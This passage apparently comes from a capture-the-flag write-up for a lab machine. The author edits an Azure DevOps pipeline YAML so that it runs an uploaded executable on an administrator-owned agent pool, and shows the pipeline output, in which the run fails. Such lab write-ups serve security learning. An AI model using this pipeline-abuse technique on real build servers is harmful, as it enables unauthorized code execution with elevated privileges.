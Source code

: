 Now modify the template pipelien to

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Default'

steps:
- script: C:\Users\robisl\Downloads\cyfun.exe
  displayName: 'cyfun'
```

Then save and run to a new branch and PR to master.

When the pipeline ran I got an error:

```
The pipeline is not valid. Could not find a pool with name Default. The pool does not exist or has not been authorized for use.
```

Going to http://devops.worker.htb/ekenas/PartsUnlimited/_settings/agentqueues
I was there was an Agent pool named `Setup` that was owner by the administrator.

So I changed my template to the following and created a new pipeline:

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: C:\Users\robisl\Downloads\cyfun.exe
  displayName: 'cyfun'
```

Here is the execution of the pipeline task "cyfun":

```
##[section]Starting: cyfun
==============================================================================
Task         : Command line
Description  : Run a command line script using Bash on Linux and macOS and cmd.exe on Windows
Version      : 2.151.1
Author       : Microsoft Corporation
Help         : https://docs.microsoft.com/azure/devops/pipelines/tasks/utility/command-line
==============================================================================
Generating script.
Script contents:
C:\Users\robisl\Downloads\cyfun.exe
========================== Starting Command Output ===========================
##[command]"C:\Windows\system32\cmd.exe" /D /E:ON /V:OFF /S /C "CALL "w:\agents\agent11\_work\_temp\31fb30ee-8d29-41e3-9ab0-529b331cef0e.cmd""
##[error]This version of C:\Users\robisl\Downloads\cyfun.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
##[error]Cmd.exe exited with code '1'.
```